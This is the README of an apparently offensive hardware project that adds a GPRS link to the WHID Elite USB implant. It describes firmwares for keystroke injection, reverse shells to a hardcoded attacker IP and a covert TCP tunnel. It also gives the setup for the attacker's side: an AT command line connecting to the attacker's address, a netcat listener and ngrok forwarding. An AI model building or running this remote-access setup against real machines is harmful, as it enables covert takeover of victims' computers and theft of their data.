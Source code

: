 # GPRS WHID
This project is a fork of the whid elite. 
It extend the inital attack by integrating GPRS connection to it.  
This attack was designed to run on a modified version of the whid Elite with an Atmel Samd instead of an Atmel mega 32U4. 
## Hardware
TODO 
## Firmwares 
### Organisation 
This project provide various attacks each in a different folder: 
- The ``keystoke-injection`` provide a firmware that will open a shell on the target and only write on it every commands received via TCP.
- The ``testserial`` firmware can be used to check the serial connection between the whid and a computer.
- The ``reverseshell-qwerty`` will establish a complete reverse shell between the target and the attacker. It will connect to the hardcoded ip provided in the code and write a payload on the target. 
- The ``reverseshell-AZERTY`` does the same thing but with an  AZERTY target. 
- Inside ``TCPtunnel`` we can find an attack were the WHID setup a TCP connection beetween the localhost:2050 of the target and the server of the attacker. The attacker can add his payload inside th firmware and use this canala s a regular TCP connection



### Requirement 
#### Whid side  
- Arduino SAMD boards drivers v1.6.12
- Keyboard Library
- Adafruit Fona Library 

On th .ino file, you will need to add your public IP address and the port your are listenning on: 
```CPP
if(!fona.sendCheckReply("AT+CIPSTART=\"TCP\",\"IPV4 Adress\",\"PORT\"",F("OK"),100))
```
#### Server side 
You need to setup a TCP server available behind a public IPV4 address. Netcat can do it easily:
```bash
netcat -lntvp <port>
```
If you don't have a public IPV4, you can use ngrok.io : 
```bash
ngrok.io => ./ngrok tcp <port>
```